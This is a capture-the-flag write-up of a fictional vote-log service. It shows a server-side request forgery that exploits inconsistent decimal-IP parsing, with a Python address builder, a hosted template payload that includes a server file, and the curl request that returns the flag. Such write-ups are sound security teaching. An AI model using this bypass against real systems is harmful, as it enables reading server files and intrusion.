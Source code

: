 # Log of Doom
This challenge mentions an experimental feature in the logging portion of the mobile backend. Looking at the code we can see the `/vote-logs` endpoint has a section for retrieving votes from a `file` source, along with a note that it's experimental. This section, specifically the `read_vote_file` function, will be our target for this challenge.
### Decimal Addresses
To complete this challenge, we need to send a request to the server with the `file` source type, and a target for the `file_path` with a custom RSU file. The path does accept remote addresses, but it checks to ensure that the address is within the `192.168.100.0/24` address range. It also doesn't allow us to use a domain for the remote address. The function does allow the use of a decimal address rather than an IP string, and it also looks like theres some double handling of addresses in this format. This is where we can take advantage to trick the app into requesting the file from our own server. When checking the IP address is valid, the app converts the number into a bit string, then uses substrings to convert each part of the string to a integer for each address octet. It does not check if the bit string is longer than a regular IP, which means we can pass a much larger number and it will still process it normally. 
```python
bitstring = f"{int(host):032b}"
octet1 = int(bitstring[0:8], 2)
octet2 = int(bitstring[8:16], 2)
octet3 = int(bitstring[16:24], 2)
# Check if in 192.168.100.0/24
if (octet1, octet2, octet3) != (192, 168, 100):
	return {"error": "Only local addresses in 192.168.100.0/24 is allowed for remote RSU files!"}
```
Further down, the decimal is processed again, only this time the integer is bit shifted and masked to obtain the octets instead.
```python
decimal = int(url_parts[2])
octet1 = (decimal >> 24) & 0xFF
octet2 = (decimal >> 16) & 0xFF
octet3 = (decimal >> 8) & 0xFF
octet4 = decimal & 0xFF
url_parts[2] = f"{octet1}.{octet2}.{octet3}.{octet4}"
```
This means that for the initial check, the leftmost portion of the decimal is checked, whereas when converting to the full IP for use, the rightmost portion is used. We can take advantage of this by appending the bit string of our server IP to the bit string of an address in the valid range.
```python
import ipaddress
local_ip = bin(int(ipaddress.ip_address('192.168.100.0')))[2:]
target_ip = bin(int(ipaddress.ip_address('10.0.0.0')))[2:]
print(int(local_ip + target_ip, 2))
```
Now that we have our address, we need to create our RSU file to fetch.
### Experimental Logging
Further down in the `read_vote_file` function, there's a templating feature that allows us to include files on the server in our log results. The source code helps us out here by providing the path we need to include in our file. We don't need to add anything more than the template content as that will give us the flag on its own. Ensure the device you run these commands on has a public IP, as the challenge server will need to be able to reach it. We also can't specify a port in the host so we'll need to host our HTTP server on port 80. 
```shell
dot@stuff-server:~$ echo "{/app/rsu/log_of_doom_flag.txt}" > flag.rsu
dot@stuff-server:~$ python3 -m http.server 80
```
Now that we have a server the challenge can reach, we can use our address from the Python script to create our curl request.
```shell
$ curl http://mobile-app.commission.freedonia.vote/api/admin/vote-logs?source=file&file=http://867653487826042880/flag.rsu
{
	"source": "file",
	"votes": {
		"content": "cysea{maybe_experimental_doesnt_belong_in_production}"
	}
}
```
Whenever you see some data being processed in two different ways it's always a good hint to look a little closer.